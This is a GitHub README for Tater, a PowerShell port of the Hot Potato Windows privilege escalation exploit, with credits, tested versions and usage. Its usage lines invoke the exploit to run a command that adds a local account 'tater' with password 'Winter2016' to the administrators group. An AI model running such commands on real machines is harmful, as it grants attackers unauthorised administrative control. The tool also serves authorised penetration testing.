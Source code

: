 # Tater
Tater is a PowerShell implementation of the Hot Potato Windows Privilege Escalation exploit.    

# Credit
All credit goes to @breenmachine, @foxglovesec, Google Project Zero, and anyone else that helped work out the details for this exploit.  
 
Potato - https://github.com/foxglovesec/Potato   

# Notes
This version has been tested by me on Windows 7 and Windows 10. I will hopefully be able to test it on the remaining Windows versions soon. Feel free to open issues here or reach out on Twitter @kevin_robertson with successes or failures for the remaining OS versions. 

# Usage
To import with Import-Module:   
Import-Module ./Tater.ps1   

To import using dot source method:   
. ./Tater.ps1  
 
Invoke-Tater -Trigger 1 -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"   

Invoke-Tater -Trigger 2 -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"     

# Screenshots
Windows 7 using trigger 1 (NBNS WPAD Bruteforce + Windows Defender Signature Updates)
![tater2](https://cloud.githubusercontent.com/assets/5897462/12707930/d005af7c-c867-11e5-916d-20a015ed30ec.PNG)

Windows 10 using trigger 2 (WebClient Service + Scheduled Task)
![tater3](https://cloud.githubusercontent.com/assets/5897462/12707953/1f77c48c-c868-11e5-8ea3-5e0e26cd3bdd.PNG)

Windows 7 using trigger 1 and UDP port exhaustion
![tater4](https://cloud.githubusercontent.com/assets/5897462/12708234/673e3794-c86b-11e5-8cc0-398b7170b73f.PNG)